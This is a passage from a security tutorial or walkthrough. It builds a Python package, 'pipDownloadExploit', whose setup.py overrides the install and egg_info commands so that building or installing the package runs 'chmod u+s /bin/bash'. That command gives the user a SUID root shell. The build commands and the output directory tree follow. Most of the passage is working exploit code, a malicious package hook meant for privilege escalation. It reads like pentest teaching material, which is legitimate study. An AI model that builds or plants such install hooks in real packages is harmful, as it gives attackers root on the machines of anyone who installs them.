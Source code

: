 -   **main.py**: It can hold any arbitrary content.
-   **setup.py**: It should have two key components:
    -   **RunCommand()**: This function will contain the actual payload
    -   **RunEggInfoCommand()**: This will execute the payload by using `cmdclass={"install": RunInstallCommand, "egg_info": RunEggInfoCommand}`

{{< highlight python "hl_lines=12-13 33" >}}

> cat src/main.py
print("Root privilege escalation")


> cat setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os


def RunCommand():
    os.system("chmod u+s /bin/bash")


class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)


setup(
    name="pipDownloadExploit",
    version="0.0.1",
    license="MIT",
    packages=find_packages(),
    cmdclass={"install": RunInstallCommand, "egg_info": RunEggInfoCommand},
)

{{< /highlight >}}

Installing required modules in a virtual environment to build the package.

```bash
pip3 install setuptools build
python3 -m build
```

Building the package will generate a `./dist` directory containing a wheel file and an archive.

```bash
.
├── dist
│   ├── pipDownloadExploit-0.0.1-py3-none-any.whl
│   └── pipDownloadExploit-0.0.1.tar.gz
├── pipDownloadExploit.egg-info
│   ├── dependency_links.txt
│   ├── PKG-INFO
│   ├── SOURCES.txt
│   └── top_level.txt
├── setup.py
├── src
│   ├── __init__.py
│   └── main.py
└── venv
    ├── bin
    ├── include
    ├── lib
```